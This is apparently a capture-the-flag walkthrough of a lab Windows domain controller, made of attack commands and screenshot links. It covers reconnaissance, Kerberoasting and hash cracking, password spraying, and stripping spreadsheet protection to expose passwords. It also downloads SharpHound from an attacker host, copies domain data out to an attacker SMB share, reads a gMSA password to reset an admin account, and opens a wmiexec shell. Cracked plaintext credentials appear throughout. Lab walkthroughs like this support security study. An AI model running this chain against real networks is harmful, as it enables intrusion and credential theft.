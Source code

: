 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.129
```
![image](https://user-images.githubusercontent.com/33616880/230699143-58aa6593-510f-4de6-be67-cbf555c08f22.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.129/FUZZ -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/230701612-546d5a49-33f8-4063-8d96-72d2d45f9cfe.png)


hope.sharp | IsolationIsKey?

![image](https://user-images.githubusercontent.com/33616880/230699047-df9e814d-0ef6-4377-97bd-72824e5dd6e5.png)


```
smbclient -L \\\\10.10.11.129\\ -U search.htb/hope.sharp
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
```
![image](https://user-images.githubusercontent.com/33616880/230700602-75be21ee-a7d1-4ed8-8465-1a226ae419f0.png)
![image](https://user-images.githubusercontent.com/33616880/230700731-c773018c-6f8d-4ed7-8812-ced8a52b3d05.png)


```
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
```
![image](https://user-images.githubusercontent.com/33616880/230699359-15a9ef35-6723-4822-b1e6-ab93ec59e2cb.png)
![image](https://user-images.githubusercontent.com/33616880/230699421-3b664dda-82d1-473a-8c1f-2b29de81fb90.png)


```
cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
```
![image](https://user-images.githubusercontent.com/33616880/230699598-ab7213a0-fb91-4395-a5b0-345b7e2fb34a.png)


```
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
```
web_svc | @3ONEmillionbaby

![image](https://user-images.githubusercontent.com/33616880/230699690-2850b510-c824-49fa-a20f-c4a3044c0fc1.png)


![image](https://user-images.githubusercontent.com/33616880/230699760-4770c7a8-b7ee-4a9d-9398-d2298e8863e4.png)


```
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
```
![image](https://user-images.githubusercontent.com/33616880/230700117-68ed59b8-9ab2-4831-be38-7421ada171f7.png)



```
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
```
search.htb\Edgar.Jacobs:@3ONEmillionbaby

![image](https://user-images.githubusercontent.com/33616880/230700260-1809d1ec-e297-4d00-9ba5-5213526fed84.png)


```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/Edgar.Jacobs
```
![image](https://user-images.githubusercontent.com/33616880/230700969-8a257621-812a-4357-b398-5949598ce182.png)


![image](https://user-images.githubusercontent.com/33616880/230701046-18ec17fc-1694-4a03-9a76-90f26e1ae622.png)
```
unzip Phishing_Attempt.xlsx
sed -i 's/<sheetProtection[^>]*>//' xl/worksheets/sheet2.xml
zip -fr Phishing_Attempt.xlsx *
```
Sierra.Frye | $$49=wide=STRAIGHT=jordan=28$$18

![image](https://user-images.githubusercontent.com/33616880/230701177-73c2b4d3-8c15-4e0d-9930-900c7ce19fcf.png)
![image](https://user-images.githubusercontent.com/33616880/230701253-86e219b9-7f85-4d24-a73a-479962c1c0fa.png)


```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/Sierra.Frye
```
![image](https://user-images.githubusercontent.com/33616880/230701438-ca0a0370-ad85-4b25-bb67-c9491f61bde8.png)
![image](https://user-images.githubusercontent.com/33616880/230701452-c57c8661-21de-4ef7-bc42-0e57ef04ab48.png)
![image](https://user-images.githubusercontent.com/33616880/230701555-c290fc03-b77a-4471-8dbf-3ebf49ad7348.png)



![image](https://user-images.githubusercontent.com/33616880/230701672-0cf8bba7-d1d6-442d-b859-5371cf1395d7.png)
![image](https://user-images.githubusercontent.com/33616880/230701705-26df0b61-24f9-4d58-a34f-b7830a9f3358.png)
```
pfx2john staff.pfx > pfx_hash
john pfx_hash -w=/usr/share/wordlists/rockyou.txt
```
![image](https://user-images.githubusercontent.com/33616880/230701880-f44b38ab-db4a-45e3-9544-d36bb638e82f.png)
![image](https://user-images.githubusercontent.com/33616880/230701923-cfcd0109-1539-44e5-94e6-5200460228e7.png)


![image](https://user-images.githubusercontent.com/33616880/230702031-e7010f86-fe69-4c70-897d-f3312121b1b4.png)
```
python3 -m http.server 80
wget 10.10.14.4/SharpHound.exe -o SharpHound.exe
./SharpHound.exe
```
![image](https://user-images.githubusercontent.com/33616880/230702230-01468743-51b4-4de4-8cc5-d551ec9d23b7.png)
![image](https://user-images.githubusercontent.com/33616880/230702368-31f4bfd3-58cc-41fd-a2d2-6ffa6264cda3.png)



```
./smbserver.py share . -smb2support -username df -password df
```
```
net use \\10.10.14.4\share /u:df df
copy 20230408050326_BloodHound.zip \\10.10.14.4\share\
```
![image](https://user-images.githubusercontent.com/33616880/230702582-cbaa9574-1756-4d57-9405-98a64c26d111.png)
![image](https://user-images.githubusercontent.com/33616880/230702543-ff4a81d9-d0e4-4c98-a178-ecd3f25e694f.png)


```
neo4j console
```
```
./BloodHound --no-sandbox
```
![image](https://user-images.githubusercontent.com/33616880/230702699-6fd438f6-781c-4644-85b6-772e17713fd8.png)


mark user as owned

shortest to admin

![image](https://user-images.githubusercontent.com/33616880/230702940-0fd2b84e-cecb-40f6-9f23-9e64f4a29a64.png)



```
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp

(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword


$cred = New-Object System.Management.Automation.PSCredential BIR-ADFS-GMSA, $SecPass
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText '0xdf0xdf!!!' -force)} -Credential $cred
```


![image](https://user-images.githubusercontent.com/33616880/230703076-28fdc717-d1b7-4ea9-94bd-1c35d378850e.png)
![image](https://user-images.githubusercontent.com/33616880/230703110-45490071-b360-4172-91bf-735b46483878.png)


```
crackmapexec smb 10.10.11.129 -u tristan.davies -p '0xdf0xdf!!!'
```
![image](https://user-images.githubusercontent.com/33616880/230703231-2e3c66d2-d334-42e4-942b-451e11657cc7.png)



```
./wmiexec.py 'search/tristan.davies:0xdf0xdf!!!@10.10.11.129'
```
![image](https://user-images.githubusercontent.com/33616880/230714809-9dd294bd-b315-40d8-b82c-082a0a133860.png)

![image](https://user-images.githubusercontent.com/33616880/230714830-96b20de5-c6d6-477f-9fe4-318864d1972f.png)

